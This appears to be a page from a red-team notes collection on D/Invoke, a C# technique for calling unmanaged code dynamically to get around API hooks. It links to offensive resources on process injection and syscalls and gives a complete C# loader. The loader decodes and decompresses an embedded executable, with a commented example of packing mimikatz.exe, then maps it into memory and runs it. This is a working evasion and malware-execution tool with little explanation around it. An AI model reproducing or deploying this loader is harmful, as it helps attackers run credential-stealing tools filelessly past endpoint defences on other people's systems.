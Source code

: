 ```yaml
---
description: Dynamic Invocation. Acts as a replacement for PInvoke to dynamically invoke unmanaged code from memory in C#
---
```


# D/Invoke

* [https://dinvoke.net/](https://dinvoke.net/)
* [https://thewover.github.io/Dynamic-Invoke/](https://thewover.github.io/Dynamic-Invoke/)
* [https://github.com/TheWover/DInvoke](https://github.com/TheWover/DInvoke)
* [https://web.archive.org/web/20210601171512/https://rastamouse.me/blog/process-injection-dinvoke/](https://web.archive.org/web/20210601171512/https://rastamouse.me/blog/process-injection-dinvoke/)
* [https://github.com/S3cur3Th1sSh1t/Creds/blob/master/Csharp/Dinvoke_CreateRemoteThread.cs](https://github.com/S3cur3Th1sSh1t/Creds/blob/master/Csharp/Dinvoke_CreateRemoteThread.cs)
* [https://blog.nviso.eu/2020/11/20/dynamic-invocation-in-net-to-bypass-hooks/](https://blog.nviso.eu/2020/11/20/dynamic-invocation-in-net-to-bypass-hooks/)
* [https://offensivedefence.co.uk/posts/dinvoke-syscalls/](https://offensivedefence.co.uk/posts/dinvoke-syscalls/)




## Run PE From Memory

- [https://github.com/S3cur3Th1sSh1t/Creds/blob/master/Csharp/PE_Loader_DInvoke_ManualMap.cs](https://github.com/S3cur3Th1sSh1t/Creds/blob/master/Csharp/PE_Loader_DInvoke_ManualMap.cs)

{% code title="DInvokePE.cs" %}
```csharp
using System;
using System.IO;
using System.IO.Compression;

namespace DInvokePE
{
    public class Program
    {
        static byte[] Compress(byte[] data)
        {
            MemoryStream output = new MemoryStream();
            using (DeflateStream dstream = new DeflateStream(output, CompressionLevel.Optimal))
                dstream.Write(data, 0, data.Length);

            return output.ToArray();
        }

        static byte[] Decompress(byte[] data)
        {
            MemoryStream input = new MemoryStream(data);
            MemoryStream output = new MemoryStream();
            using (DeflateStream dstream = new DeflateStream(input, CompressionMode.Decompress))
                dstream.CopyTo(output);

            return output.ToArray();
        }

        public static void Main(string[] args)
        {
            /*
            var rawBytes = File.ReadAllBytes(@"C:\Users\snovvcrash\Desktop\mimikatz.exe");
            var compressed = Compress(rawBytes);
            var compressedB64 = Convert.ToBase64String(compressed);
            */

            var compressed = Convert.FromBase64String("BASE64_EXE");
            var rawBytes = Decompress(compressed);
            DInvoke.Data.PE.PE_MANUAL_MAP map = DInvoke.ManualMap.Map.MapModuleToMemory(rawBytes);
            DInvoke.DynamicInvoke.Generic.CallMappedPEModule(map.PEINFO, map.ModuleBase);
            Console.ReadLine();
        }
    }
}
```
{% endcode %}
